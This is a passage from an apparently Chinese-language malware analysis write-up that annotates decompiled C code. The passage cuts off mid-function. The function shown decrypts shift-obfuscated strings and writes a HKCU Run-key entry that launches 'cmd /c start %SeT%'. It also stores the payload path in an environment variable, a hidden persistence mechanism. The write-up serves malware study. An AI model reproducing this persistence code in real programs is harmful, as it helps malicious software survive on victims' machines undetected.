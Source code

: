 ```c
}

```

从注册表中获取 "ProductId" 值，然后将一些字符串连接起来，并返回结果。

> 再看看 sub_401360

#### sub_401360

**这个函数是为了保活**

```c
int sub_401360()
{
  const CHAR *v0; // 指向注册表键名的指针
  const CHAR *v1; // 指向注册表值名的指针
  char *v2; // 字符串缓冲区指针
  HKEY phkResult; // 存储打开的注册表键的句柄
  LPCSTR lpSubKey; // 存储注册表子键路径的指针
  const CHAR *v6; // 指向注册表值名的指针

  // 获取注册表子键路径并存储在lpSubKey中
  lpSubKey = sub_4026E0("Tpguxbsf]Njdsptpgu", 1);                                       //解密之后是Software\Microsoft
  strcat((char *)lpSubKey, sub_4026E0("]Xjoepxt]Dvssfouwfstjpo]", 1));                    //解密之后是\Windows\Currentversion
  *(_DWORD *)&lpSubKey[strlen(lpSubKey)] = 7238994;

  // 获取注册表值名并存储在v0中
  v0 = sub_4026E0("Efgbvmu2", 1);                                                         //Default1
  // 获取注册表值名并存储在v1中
  v1 = sub_4026E0("TfU", 1);                                                             //Set
  // 存储原始的注册表值名以备后用
  v6 = v1;

  // 如果注册表中没有指定的注册表值，则执行以下操作
  if (RegQueryValueExA(0, v0, 0, 0, 0, 0))
  {
    // 构建字符串并存储在v2中
    v2 = sub_4026E0("dne", 1);
    strcat(v2, sub_4026E0("!0d!tubsu!&TfU&!", 1));                                        // /c start %SeT%
    strcat(v2, sub_4026E0("''!", 1));                                                     //&&
    strcat(v2, "exit");
    // 打开注册表键
    RegOpenKeyExA(HKEY_CURRENT_USER, lpSubKey, 0, 0xF003Fu, &phkResult);
    // 设置注册表值
    RegSetValueExA(phkResult, v0, 0, 1u, (const BYTE *)v2, strlen(v2));
    // 关闭注册表键
    RegCloseKey(phkResult);
    // 恢复注册表值名为原始值
    v1 = v6;
  }

  // 如果注册表中没有指定的注册表值，则执行以下操作
  if (RegQueryValueExA(0, v1, 0, 0, 0, 0))
  {
    // 打开注册表键
    RegOpenKeyExA(HKEY_CURRENT_USER, "Environment", 0, 0xF003Fu, &phkResult);
    // 设置注册表值
    RegSetValueExA(phkResult, v1, 0, 1u, Path, strlen((const char *)Path));
    // 关闭注册表键
    RegCloseKey(phkResult);
```
